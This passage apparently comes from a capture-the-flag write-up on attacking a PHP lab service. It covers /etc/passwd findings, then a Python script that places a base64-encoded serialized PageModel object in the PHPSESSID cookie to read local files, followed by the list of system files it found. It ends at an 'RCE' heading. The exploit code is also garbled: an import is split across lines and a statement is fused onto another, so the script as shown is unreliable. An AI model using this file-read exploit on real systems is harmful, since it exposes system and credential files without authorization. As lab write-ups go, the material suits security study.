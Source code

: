 From the output of the /etc/passwd file, two particular entries can be seen: the root user is running /bin/ash instead of the normal /bin/bash (this may be to prevent users from getting to root unless it is aliased to something), and there is a local user named www running /bin/sh.

### Local File Enumeration

A second python script was created to quickly enumerate the local files on the system:

{% highlight python %}
import requests
from base64 
import b64encode

for f in open("lfi.txt","r").readlines():  
     
   payload = '''O:9:"PageModel":1:{s:4:"file";s:%d:"%s";}''' % (len(f.rstrip()),f.rstrip())  
   payload = b64encode(payload.encode())  
   cookies = { "PHPSESSID" : payload.decode() }  
   html = requests.get("http://167.99.88.212:30746",cookies=cookies).text   if len(html) > 0:  
       print(f.strip())
{% endhighlight %}

The script opens file called lfi.txt[\[1\]](#ftnt1) and puts the file name into the object. When the file is present on the system, the length of the response will be greater than 0 bytes, and the name of the file will be printed out. However, after the python script finished executing, no interesting files were discovered:

{% highlight bash %}
/etc/passwd  
/etc/fstab  
/etc/hosts  
/etc/inittab  
/etc/issue  
/etc/motd  
/etc/motd  
/etc/mtab  
/etc/profile  
/etc/resolv.conf  
/proc/cpuinfo  
/proc/filesystems  
/proc/interrupts  
/proc/ioports  
/proc/meminfo  
/proc/modules  
/proc/mounts  
/proc/stat  
/proc/swaps  
/proc/version  
/proc/self/net/arp
{% endhighlight %}

RCE
---
